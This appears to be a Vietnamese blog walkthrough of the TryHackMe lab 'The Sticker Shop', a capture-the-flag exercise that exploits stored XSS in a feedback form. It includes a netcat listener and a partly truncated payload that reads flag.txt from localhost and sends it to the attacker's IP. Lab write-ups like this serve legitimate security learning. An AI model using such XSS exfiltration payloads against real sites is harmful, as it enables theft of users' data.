

+++
title = "TryHackMe: The Sticker Shop"
date = 2025-02-08
description = "Walkthrough challenge The Sticker Shop trên TryHackMe — Stored XSS, client-side exploitation."
[taxonomies]
tags = ["ctf", "tryhackme", "xss", "client-side"]
[extra]
toc = true
+++

Walkthrough challenge **The Sticker Shop** trên TryHackMe — exploit **Stored XSS** để đọc flag từ localhost.

<!-- more -->

Link: [https://tryhackme.com/room/thestickershop](https://tryhackme.com/room/thestickershop)

Keyword: Stored XSS

Question Hint: Can you conduct any client-side exploitation in order to read the flag?

Cảm ơn: [splitunknown](https://splitunknown.medium.com/the-sticker-shop-thm-walk-through-805b25ca6a59)

## Phân tích

Dựa vào hint → vulnerability client-side như **XSS** hoặc CSRF.

Website có trang **Feedback** cho user nhập input → Stored XSS.

## Khai thác

Lấy IP attacker:

```bash
$ ifconfig
tun0: inet 10.4.126.108
```

Mở server: `nc -knvlp 9090`

Test payload:

```html

```

Thử truy cập `http://10.10.130.23:8080/flag.txt`:



Response origin là **localhost** → `flag.txt` hosted locally.

Payload cuối cùng — fetch `flag.txt` từ localhost rồi gửi về server:

```html
 r.text()).then(r => fetch('http://10.4.126.108:9090?flag='+r))">
```

Flag xuất hiện trên server! 🎉
